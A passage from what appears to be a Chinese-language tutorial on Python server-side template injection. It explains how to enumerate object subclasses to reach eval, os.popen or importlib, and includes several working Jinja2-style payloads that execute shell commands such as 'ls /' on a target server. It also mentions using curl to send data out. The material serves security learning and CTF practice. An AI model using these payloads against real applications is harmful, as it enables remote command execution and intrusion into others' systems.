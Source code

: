 编写遍历脚本查找含有**eval**的类

编写的思路很简单，大家最好可以做到手动编写，首先是要对python的`requests`库进行一个学习，了解这个库怎么设置参数，怎么确定的请求方式，在这个基础上就只需要设置一个for循环和一个if判断就可以了。

可以记一下几个含有eval函数的类：

- warnings.catch\_warnings
- WarningMessage
- codecs.IncrementalEncoder
- codecs.IncrementalDecoder
- codecs.StreamReaderWriter
- os.\_wrap\_close
- reprlib.Repr
- weakref.finalize
- etc.

所以payload如下：

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}+
```

### 寻找 os 模块执行命令

Python的 os 模块中有system和popen这两个函数可用来执行命令。其中`system()`函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；`popen()`函数执行命令有回显。所以比较常用的函数为`popen()`函数，而当`popen()`函数被过滤掉时，可以使用`system()`函数代替。

首先编写脚本遍历目标Python环境中含有**os**模块的类的索引号

随便挑一个类构造payload执行命令即可：

```python
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}} 
```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 `os._wrap_close`，但也不绝对。**由于目标Python环境的不同，我们还需要遍历一下。**

### 寻找 popen 函数执行命令

首先编写脚本遍历目标Python环境中含有 **popen** 函数的类的索引号

直接构造payload即可：

```python
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```

### 寻找 importlib 类执行命令

除了上面的方法外，我们还可以直接导入os模块，python有一个importlib类，可用load\_module来导入你需要的模块。

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。我么可以直接利用该类中的load\_module将os模块导入，从而使用 os 模块执行命令。
